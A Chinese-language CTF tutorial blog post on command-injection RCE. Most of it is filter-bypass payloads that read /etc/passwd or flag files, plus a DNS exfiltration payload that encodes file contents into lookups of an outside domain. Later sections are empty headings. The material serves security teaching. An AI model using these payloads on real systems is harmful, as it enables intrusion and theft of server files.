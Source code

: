 +++
author = "Lulaide"
title = "RCE 常见类型及绕过"
date = "2025-03-23"
description = "RCE常见攻击点和利用方法"
tags = [
    "渗透",
    "Linux",
    "CTF"
]
categories = ["教程&文档"]
image = "image.png"
+++
# RCE 常见类型及绕过
![](image.png)
## 命令注入（Command Injection）
常见命令连接词:
- `;` (分号): 允许您按顺序执行多个命令。
- `&&` (与): 仅当第一个命令成功（返回零退出状态）时执行第二个命令。
- `||` (或): 仅当第一个命令失败（返回非零退出状态）时执行第二个命令。
- `&` (后台执行): 在后台执行命令，允许用户继续使用 shell。
- `|` (管道): 将第一个命令的输出作为第二个命令的输入。
常见 Shell 特殊符号:
- `&` : 
    - 1. 在后台执行命令，允许用户继续使用 shell。
    - 2. 特殊文件描述符，如 `&1` 标准输出。
    - 3. `&&` 仅当第一个命令成功（返回零退出状态）时执行第二个命令。
- `$` : 
    - 1. 变量替换,例如 `echo $HOME`
    - 2. 算术扩展 `echo $((1+2))`
    - 3. 命令替换 `echo $(cat flag)`
    - 4. `${}` 进行高级的参数扩展，如字符串截取、默认值、模式替换等
	提供默认值：`${var:-default}`
	字符串长度：`${#var}`
	子串截取：`${var:offset:length}`

- `` ` `` (反引号): 执行命令并将输出作为结果，例如
```bash
echo `date`
```
> 反引号和`$(cmd)`都能进行命令替换，shell先会执行和反引号内或括号内的命令，再执行外层命令
### 命令分隔符绕过
- `%0a`
- `%0d`
### cat 绕过(命令绕过)
- 使用 `echo` 读取
```bash
echo $(<filename)
```
- `base64`
```
base64 flag | base64 -d
```

例题
![](image-4.png)
Payload:
```bash
0.0.0.0 && base64 flag_11213284764042.php | base64 -d
```
![](image-5.png)
### 命令关键词绕过
#### 使用符号分割命令
```bash
c"a"t f"la"g
ca""t fl""ag
w\ho\am\i
who$()ami
who$@ami
```
#### 十六进制编码绕过字符过滤
快速转换:
```bash
echo -n "/etc/passwd" | xxd -p | sed 's/../\\x&/g'
``` 
- `echo -e`绕过
```bash
echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
```
示例
```bash
cat $(echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")
```
```bash
$(echo -e "\x63\x61\x74") flag
```
- `xxd -r -ps`绕过
```bash
$(xxd -r -ps <(echo 636174)) flag
```

### 斜线绕过
- `${HOME:0:1}`
```bash
cat ${HOME:0:1}etc${HOME:0:1}passwd
```
- `tr` 字符集替换
```bash
echo . | tr '!-0' '"-1'
```
```bash
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```
例题
![](image-6.png)
Payload:
```bash
0.0.0.0 && cat flag_is_here${HOME:0:1}flag_327162425030231.php
```
![](image-7.png)
### 空格绕过
- 使用 `${IFS}`
- 使用 `<` 输入重定向
- `{cat,/etc/passwd}`
- `ls%09-al%09/home` 制表符ASCII码
- 如果能回现报错，就可以使用`$(<filename)`
![](image-3.png)

例题
![](image-1.png)
Payload: 
```bash
0.0.0.0&&cat${IFS}flag_24157125720131.php
```
```bash
0.0.0.0&&cat<flag_24157125720131.php
```
![](image-2.png)

### 综合命令注入练习
![](image-8.png)
先把 `ls` 的结果保存在文件中
```bash
$(ls>1)
```
读取 `ls` 的输出
```bash
$(base64${IFS}1).lulaide.com
```
![](image-9.png)
![](image-10.png)
读取目录下的内容
```bash
$(ls${IFS}fla""g_is_here>1)
$(base64${IFS}1).lulaide.com
```
![](image-11.png)
直接读取 `flag`
```bash
$(base64${IFS}f""lag_is_here${HOME:0:1}fl""ag_123591964811506.php).lulaide.com
```
![](image-12.png)
![](image-13.png)
## 命令行参数注入
命令行的一些概念:
- 选项
通常以短横线（-）或双横线（--）开头，如 -l、--help。
- 参数
不带 - 前缀的字符串，或者也包含在选项中作为参数（例如 -f filename 中的 filename）。
## 代码注入（Code Injection）

## 服务器端模板注入（SSTI）

## 反序列化漏洞

## 文件包含漏洞（LFI/RFI）